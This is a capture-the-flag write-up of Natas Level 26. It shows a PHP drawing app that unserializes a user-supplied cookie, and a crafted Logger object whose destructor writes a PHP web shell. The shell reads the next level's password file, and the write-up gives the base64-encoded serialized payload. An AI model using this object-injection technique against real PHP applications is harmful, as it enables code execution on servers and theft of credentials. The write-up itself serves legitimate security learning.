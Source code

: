 # Natas
> Level : Natas Level 26<br/>
> Solved : 3rd August 2021<br/>
> Remarks : PHP Deserialization<br/>
<br/>

## Quest
We are presented with a simple Drawing Application

![](./images/Level26.png)

<br/>
Backend Code 
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
 
function showImage($filename){
    if(file_exists($filename))
        echo "<img src=\"$filename\">";
}

function drawImage($filename){
    $img=imagecreatetruecolor(400,300);
    drawFromUserdata($img);
    imagepng($img,$filename);     
    imagedestroy($img);
}

function drawFromUserdata($img){
    if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $color=imagecolorallocate($img,0xff,0x12,0x1c);
        imageline($img,$_GET["x1"], $_GET["y1"], 
                        $_GET["x2"], $_GET["y2"], $color);
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        if($drawing)
            foreach($drawing as $object)
                if( array_key_exists("x1", $object) && 
                    array_key_exists("y1", $object) &&
                    array_key_exists("x2", $object) && 
                    array_key_exists("y2", $object)){
                
                    $color=imagecolorallocate($img,0xff,0x12,0x1c);
                    imageline($img,$object["x1"],$object["y1"],
                            $object["x2"] ,$object["y2"] ,$color);
        
                }
    }    
}
    
function storeData(){
    $new_object=array();

    if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $new_object["x1"]=$_GET["x1"];
        $new_object["y1"]=$_GET["y1"];
        $new_object["x2"]=$_GET["x2"];
        $new_object["y2"]=$_GET["y2"];
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    }
    else{
        // create new array
        $drawing=array();
    }
    
    $drawing[]=$new_object;
    setcookie("drawing",base64_encode(serialize($drawing)));
}
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
?>
```
<br/>

## Solution

Lot of code to go through and most of it is concerned with drawing the image according to provided coordinates.

If we leave out function declarations, the PHP that gets executed is at the bottom.

The application draws lines either by coordinates provided or by deserializing the `drawing` cookie.

One things that strikes out in the code is `unserialize` and `serialize` functions. This calls for checking if Serialization Bugs are present.

What is Serialization?<br/>
>Serialization is when an object in a programming language is converted into a format that can be stored or transferred. Whereas deserialization is the opposite,  it’s when the serialized object is read from a file or the network and converted back into an object.


Lets deserialize the cookie:
```php
<?php

$drawing = unserialize(base64_decode("YToyOntpOjA7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO319"));
print_r($drawing);
```

Output
```
$ php drawing.php
Array
(
    [0] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

    [1] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

)
```

After deserializing the `drawing` cookie, we get an array of coordinates used to create the lines.

In case of serialization bugs, we take advantage of the constructor and destructor function that runs when an object is created or destroyed.

Lets look at the `Logger` class, both constructor and destructor .i.e. `__construct` and `__destruct` function write to a file . They write the contents of variable `initMsg` and `exitMsg` to the file. Lets create an object 

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="Serialization Buggs!!!\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/log.txt";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
```

Output
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbG9nLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIzOiJTZXJpYWxpemF0aW9uIEJ1Z2dzISEhCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
```

Observations:
  - We get the contents of the file storing password for next Level<br/>
  - we can write to `img` directory, so we store log file there.<br/>

We send a Logger object into a function that’s expecting arrays with coordinates, so this will give an error. But our exploit works because the objected is loaded into the `$drawing` variable, so when its life ends, the destructor will be called in turn writing our exploit to file and that's all we need.

Below we send our serialized object as cookie. (appended `%3D` for `=` )

![](./images/Level26_solution.png)

<br/>
Now, lets access the file that we wrote

![](./images/Level26.1_solution.png)

<br/>
We can see that our file gets written with our code but doesn't execute, let change `.txt` to `.php` in our serialized object and recreate it and that will execute to present the password for next level.

![](./images/Level26.2_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - Whenever we see `unserialize` and `serialize` functions in code, ALWAYS test it.<br/>
  - Test chunks of code locally, gr8 for understanding and exploiting.<br/>

<br/>
That's Level 26 

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
